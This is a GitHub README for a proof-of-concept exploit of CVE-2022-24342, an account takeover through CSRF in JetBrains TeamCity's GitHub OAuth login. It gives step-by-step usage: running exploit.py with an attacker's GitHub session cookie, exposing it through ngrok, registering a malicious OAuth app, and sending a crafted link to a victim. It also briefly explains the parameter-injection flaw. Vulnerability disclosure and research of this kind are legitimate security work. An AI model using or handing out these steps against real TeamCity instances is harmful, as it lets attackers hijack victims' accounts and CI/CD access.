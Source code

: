 # CVE-2022-24342
JetBrains TeamCity - account takeover via CSRF in GitHub authentication (PoC)

<!-- TOC -->

- [CVE-2022-24342](#cve-2022-24342)
  - [Requirements](#requirements)
  - [Usage](#usage)
  - [How does it work?](#how-does-it-work)
    - [GitHub OAuth2: query parameters processing order](#github-oauth2-query-parameters-processing-order)
    - [CVE-2022-24342: HTTP requests flow](#cve-2022-24342-http-requests-flow)

<!-- /TOC -->

## Requirements

- JetBrains TeamCity <2021.2.1
- GitHub authentication enabled

## Usage

1.  Try to login with attacker's GitHub account into target TeamCity intance to make TeamCity's GitHub application authorized.

2. Install & run:
```powershell
$ git clone https://github.com/yuriisanin/CVE-2022-24342
$ cd CVE-2022-24342/
$ pip3 install -r requirements.txt
$ python3 exploit.py -h

usage: exploit.py [-h] -s S [-p P]

optional arguments:
  -h, --help  show this help message and exit
  -s S        GitHub user session
  -p P        Uvicorn port

$ python3 exploit.py -s {attackers_github_session_cookie}
```

> If you run the exploit on the local machine, you might need to use Ngrok or alternatives.

``` powershell
$ ngrok http 8000
```

2. Create GitHub OAuth2 application:

```
homepage: "http://{exploit-host}:8000"
authorization callback url: "http://{exploit-host}:8000/callback"
```

3. Send the following link to a victim:

```
http://{exploit-host}:8000/exploit?target_host=http://{target-host}&gh_client_id={github_oauth_client_id}
```

**DEMO:**

[![CVE-2022-24342 Demo](https://img.youtube.com/vi/Xq3nanpOquo/0.jpg)](https://www.youtube.com/watch?v=Xq3nanpOquo)

## How does it work?

TeamCity was vulnerable to query paramater injection during OAuth2 flow, allowing an attacker to redirect user into an arbitrary GitHub OAuth2 application, intercept a valid state parameter, and connect arbitrary GitHub account to victim's TeamCity account.

This was possible due to next things:

- GitHub OAuth2 query parameters processing order
- TeamCity query parameter injection

### GitHub OAuth2: query parameters processing order

![github-oauth-parameters-processing](assets/github-oauth-parameters-processing.png)

### CVE-2022-24342: HTTP requests flow

![requests-flow](assets/requests-flow.png)

## Support

You can follow me on [Twitter](https://twitter.com/SaninYurii), [GitHub](https://github.com/yuriisanin) or [YouTube](https://www.youtube.com/channel/UCLN2EvGxtnucEdrI21PmJZg).
